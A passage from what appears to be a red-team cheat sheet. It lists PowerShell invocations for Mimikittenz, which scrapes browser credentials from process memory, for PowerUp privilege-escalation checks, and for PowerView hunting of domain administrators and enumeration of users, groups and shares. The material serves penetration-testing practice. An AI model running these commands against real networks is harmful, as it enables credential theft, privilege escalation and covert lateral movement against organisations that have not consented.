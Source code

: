 Execution

    Invoke-Mimikittenz

Customizations

    Custom regex - The syntax for adding custom regex is as follows:
    [mimikittenz.MemProcInspector]::AddRegex("","")

    Custom target process - Just append your target proccess name into the array:
    [mimikittenz.MemProcInspector]::InspectManyProcs("iexplore","chrome","firefox")

### PowerUp

Performs multiple local host privilege escalation checks for common Windows misconfigurations.

    Invoke-AllChecks

[See cheat sheet for more commands][11]

### PowerView

* Requires domain user privileges

Find Administrative users logged in across the domain – default group = Domain Admins)

    Invoke-UserHunter -Threads 15 -NoPing [-GroupName "Enterprise Admins"]
    Invoke-UserHunter -Threads 20 -GroupName "Domain Admins" -SearchForest -CheckAccess

Find User (Stealthy via Fileshares)

    Invoke-UserHunter -Stealth -Threads 5 -NoPing [-GroupName "Enterprise Admins"] [-UserName "svcAccount"]

Get domain user info

    Get-NetUser [-UserName john]

    Get-NetUser -Domain | Select-Object objectsid,lockouttime,samaccounttype,accountexpires,objectclass,useraccountcontrol,@{Name='memberof';Expression={[string]::join(";",($_.memberof))}},info,distinguishedname,adspath,cn,pwdlastset,objectguid,whencreated,description,samaccountname,usnchanged,name| export-csv userprops_members.csv

Find group names

    Get-NetGroup [-GroupName *admin*]

Get group members

    Get-NetGroupMember [-GroupName "Domain Admins"]

Find open shares – Noisy

    Invoke-ShareFinder -CheckShareAccess

Find open (non-default i.e. C$) shares by LDAP source

    Invoke-ShareFinder -ComputerADSPath "LDAP://OU=Servers,OU=IT,DC=domain,DC=com" -CheckShareAccess -ExcludeStandard | Out-File -Encoding ascii c:windowstempserver_shares.txt

    Invoke-ShareFinder -ExcludePrint -ExcludeIPC -CheckShareAccess


[1]: /threatexpress/img/pasties.png
[2]: https://www.twitter.com/joevest
[3]: https://www.twitter.com/andrewchiles
[4]: https://www.twitter.com/minis_io
[5]: https://canarytokens.org/generate#
[6]: http://blog.portswigger.net/2017/07/cracking-lens-targeting-https-hidden.html
[7]: https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6
[8]: http://www.exploit-monday.com/2013/04/PersistenceWithPowerShell.html
[9]: https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt
[10]: http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
[11]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf
[12]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
[13]: https://gist.github.com/HarmJ0y/3328d954607d71362e3c
[14]: https://adsecurity.org/?p=2362
[15]: http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
[16]: https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond